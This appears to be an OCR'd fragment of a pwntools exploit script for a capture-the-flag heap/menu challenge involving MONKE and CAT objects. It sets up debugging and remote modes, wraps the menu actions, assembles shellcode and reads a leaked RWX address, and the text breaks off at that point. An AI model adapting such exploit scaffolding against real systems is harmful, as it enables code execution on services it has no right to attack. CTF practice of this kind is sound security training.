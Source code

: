```python

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg

# edit's memcpy
# breakrva 0x314a
# breakrva 0x321c

# CAT's hearsound
breakrva 0x2e83
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
MONKE = 1
CAT = 2

def add(type, name, sound, weight, enum):
    io.sendlineafter(b'>>', b'1')
    io.sendlineafter(b'>>', str(type).encode())
    io.sendlineafter(b':', name)
    io.sendlineafter(b':', sound)
    io.sendlineafter(b':', str(weight).encode())
    io.sendlineafter(b':', str(enum).encode())

def show():
    io.sendlineafter(b'>>', b'2')

def hear(type, idx):
    io.sendlineafter(b'>>', b'3')
    io.sendlineafter(b'>>', str(type).encode())
    io.sendlineafter(b'>>', str(idx).encode())

def edit(type, idx, name):
    io.sendlineafter(b'>>', b'4')
    io.sendlineafter(b'>>', str(type).encode())
    io.sendlineafter(b'>>', str(idx).encode())
    io.sendlineafter(b'>>', name)

def feedback(feedback):
    io.sendlineafter(b'>>', b'5')
    io.sendlineafter(b'>>', feedback)

def exploit():
    global io
    
    run("nasm -f bin shellcode.asm -o shellcode.bin", shell=True, check=True)
    shellcode = open("shellcode.bin", "rb").read()
    
    io = initialize()

    io.recvuntil(b'at: 0x')
    rwx = int(io.recvline().strip(), 16)

```
